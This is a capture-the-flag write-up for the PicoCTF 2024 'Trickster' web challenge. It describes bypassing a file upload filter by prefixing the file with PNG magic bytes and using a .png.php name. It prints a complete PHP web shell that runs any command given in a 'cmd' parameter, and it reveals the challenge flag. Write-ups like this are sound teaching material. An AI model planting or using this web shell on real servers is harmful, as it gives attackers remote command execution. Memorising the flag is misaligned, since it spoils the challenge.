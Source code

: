 # PicoCTF-2024

## Trickster - 300 | Web Exploitation

### Solve :

i solved this challenge after the ctf end  , i know that it was a file upload vuln but the trick was in the header of the file u just need to put first bytes to `50 4E 47` or just type PNG in the header of your websheel

u ca n use this 
```
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

and u upload the file as .png.php


after that when u visite the /uploads/name.png.php  u will find command line to type after seach for all extention with *.txt u can find some files one of them with the flag 


**flag:picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}**